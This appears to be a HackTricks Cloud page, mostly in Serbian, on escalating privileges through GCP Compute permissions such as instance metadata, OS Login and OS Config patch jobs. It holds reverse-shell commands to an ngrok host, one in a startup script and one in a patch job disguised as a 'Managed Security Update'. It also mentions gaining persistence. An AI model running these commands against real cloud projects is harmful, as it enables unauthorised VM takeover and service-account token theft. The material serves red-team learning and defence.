 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (mreži) u GCP proverite:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Napomena da je za izvođenje svih napada na eskalaciju privilegija koji zahtevaju modifikaciju metapodataka instance (kao što su dodavanje novih korisnika i SSH ključeva) **potrebno da imate `actAs` dozvole nad SA koja je povezana sa instancom**, čak i ako je SA već povezana!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **modifikovati** informacije o **metapodacima** **instance** i promeniti **ovlašćene ključeve korisnika**, ili **napraviti** **novog korisnika sa sudo** dozvolama. Stoga, moći ćete da se prijavite putem SSH na bilo koju VM instancu i ukradete GCP servisni nalog sa kojim instanca radi.\
Ograničenja:

* Napomena da GCP servisni nalozi koji rade u VM instancama po defaultu imaju **veoma ograničen opseg**
* Moraćete da budete **u mogućnosti da kontaktirate SSH** server da biste se prijavili

Za više informacija o tome kako iskoristiti ovu dozvolu proverite:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvesti ovaj napad dodavanjem novog startup-skripta i ponovnim pokretanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ova dozvola daje **iste privilegije kao prethodna dozvola** ali za specifične instance umesto za ceo projekat. **Iste eksploatacije i ograničenja kao za prethodni deo se primenjuju**.

### `compute.instances.setIamPolicy`

Ova vrsta dozvole će vam omogućiti da **dodelite sebi ulogu sa prethodnim dozvolama** i eskalirate privilegije zloupotrebom istih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Nećete imati root privilegije unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA koji je povezan sa VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCE]`** i povezati se na instancu. Imaćete **root privilegije** unutar instance.

{% hint style="success" %}
Da biste se uspešno prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA koji je povezan sa VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **napraviti virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisa pristupajući metapodacima kako biste eskalirali privilegije.

Eksploatacijski skript za ovu metodu može se pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate dozvole **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** možete kreirati [**patch job ili deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i dobijete izvršenje koda na svim instancama za obradu unutar projekta.

Napomena da trenutno **ne trebate `actAs` dozvolu** nad SA koji je povezan sa instancom.

Ako želite ručno da iskoristite ovo, potrebno je da kreirate ili [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ili** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Za patch job pokrenite:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Da biste implementirali ispravku:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) se u prošlosti mogao koristiti za iskorišćavanje ove pogrešne konfiguracije (ali sada ne radi).

**Napadač takođe može zloupotrebiti ovo za postizanje trajnosti.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatne dozvole** za računarsku sliku.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatne dozvole** za snimak diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatne dozvole** za disk.

### Obilaženje pristupnih opsega

Prateći ovu vezu, pronaći ćete neke [**ideje za pokušaj obilaženja pristupnih opsega**](../).

### Lokalno eskaliranje privilegija u GCP Compute instanci

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
